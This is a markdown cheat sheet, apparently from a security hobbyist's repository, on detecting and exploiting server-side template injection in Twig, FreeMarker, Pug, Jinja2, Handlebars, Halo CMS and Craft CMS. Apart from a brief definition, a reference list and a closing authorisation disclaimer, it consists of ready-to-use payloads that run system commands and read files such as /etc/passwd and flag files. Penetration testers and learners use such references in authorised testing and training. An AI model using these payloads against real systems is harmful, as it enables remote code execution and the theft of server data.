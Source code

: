 # Server-Side Template Injection (SSTI) - Discovery and Exploitation Guide

> Author: Offensive Security Enthusiast
> Last Updated: 2025-05-20

---

## Table of Contents

* [What is SSTI?](#what-is-ssti)
* [General Detection Payloads](#general-detection-payloads)
* [Twig](#twig)
* [Apache FreeMarker](#apache-freemarker)
* [Pug (formerly Jade)](#pug-formerly-jade)
* [Jinja2 (Python)](#jinja2-python)
* [Mustache & Handlebars (JS)](#mustache--handlebars-js)
* [Halo CMS](#halo-cms)
* [Craft CMS](#craft-cms)
* [References](#references)

---

## What is SSTI?

**Server-Side Template Injection (SSTI)** occurs when user-controlled input is unsafely embedded into a server-side template engine. If exploitable, attackers can execute arbitrary code, read files, or perform RCE.

---

## General Detection Payloads

Use these to identify SSTI vulnerabilities:

```text
{{7*7}}        # Twig, Jinja2
${7*7}         # FreeMarker, Velocity
<%= 7*7 %>     # Pug, EJS
{{= 7*7 }}     # Handlebars/Mustache
```

Check for a response containing `49`. If yes, it's likely vulnerable.

---

## Twig

**Language**: PHP
**Used in**: Symfony, Laravel, Craft CMS

### Detection

```twig
{{7*7}}                    # -> 49
{{['A','B']|join}}         # -> AB
```

### Exploitation

```twig
{{_self.env.registerUndefinedFilterCallback('system')}}
{{'cat /etc/passwd'|filter}}
```

```twig
{{ ['cat /var/www/flag.txt']|map('system') }}
```

```twig
{{[0]|reduce('system','cat /var/www/flag.txt')}}
```


### File Read Example

```twig
{{ constant('file_get_contents')('/var/www/flag.txt') }}
```

---

## Apache FreeMarker

**Language**: Java

### Detection

```ftl
${7*7}     # -> 49
${"freemarker"?api}  # See available methods
```

### Exploitation (Read files)

```ftl
<#assign x = "freemarker.template.utility.Execute"?new()>
${x("cat /etc/passwd")}
```

---

## Pug (formerly Jade)

**Language**: JavaScript (Node.js)

### Detection

```pug
= 7 * 7      # -> 49
- console.log(process.env)  # Look for output in logs
```

### Exploitation (RCE)

```pug
- var exec = require('child_process').execSync
= exec('cat /etc/passwd')
```

---

## Jinja2 (Python)

**Used in**: Flask, Ansible, SaltStack

### Detection

```jinja
{{7*7}}            # -> 49
{{config.items()}} # Flask-specific
```

### Exploitation

```jinja
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

---

## Mustache & Handlebars (JavaScript)

### Detection

```handlebars
{{7*7}}      # Will likely render as-is unless logic-less extensions exist
```

**Note**: Logic-less — needs extensions to be exploitable.

### Possible Exploitation (Handlebars with helpers)

```js
{{#with (lookup this "constructor")}}
  {{#with (lookup this "constructor")}}
    {{eval "process.mainModule.require('child_process').execSync('cat /etc/passwd')"}}
  {{/with}}
{{/with}}
```

---

## Halo CMS

**Language**: Java
**Uses**: FreeMarker internally

### Exploitation

```ftl
<#assign x = "freemarker.template.utility.Execute"?new()>
${x("cat /flag")}
```

---

## Craft CMS

**Language**: PHP
**Template Engine**: Twig

### Detection / Exploitation

Same as Twig:

```twig
{{ _self.env.registerUndefinedFilterCallback('system') }}
{{ 'cat /etc/passwd'|filter }}
```

Look for variables like:

```twig
{% for k, v in _context %}{{k}}: {{v}}<br>{% endfor %}
```

---

## References

* [PortSwigger SSTI Cheat Sheet](https://portswigger.net/web-security/server-side-template-injection)
* [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
* [Craft CMS Security](https://craftcms.com/security)
* [Twig Documentation](https://twig.symfony.com/doc/)
* [FreeMarker Manual](https://freemarker.apache.org/docs/)

---

**Disclaimer**: Use this information only on systems you are authorized to test.

